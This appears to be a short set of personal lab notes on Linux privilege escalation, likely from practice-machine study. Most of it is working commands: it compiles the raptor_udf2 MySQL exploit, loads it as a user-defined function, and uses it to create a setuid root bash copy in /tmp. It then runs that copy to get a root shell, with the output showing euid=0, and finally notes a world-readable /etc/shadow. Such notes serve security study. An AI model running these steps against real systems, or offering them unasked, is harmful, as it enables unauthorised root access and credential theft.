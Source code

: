 # Notes for Linux PrivEsc
https://xapax.github.io/security/#post_exploitation/privilege_escalation_-_linux/
`$ id`
`uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)`

### Using the local vulnerability exploit to leverage the root access from a user level

https://www.exploit-db.com/exploits/1518
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

`$ mysql -u root`

### Execute the following commands on the MySQL shell to create a
### User Defined Function (UDF) "do_system" using our compiled exploit:

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

`mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

### Exit the MySQL prompt
`mysql> exit`

### Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`$ /tmp/rootbash -p`

```
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

### Weak File Permissions - Readable /etc/shadow

```
rootbash-4.1# ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```
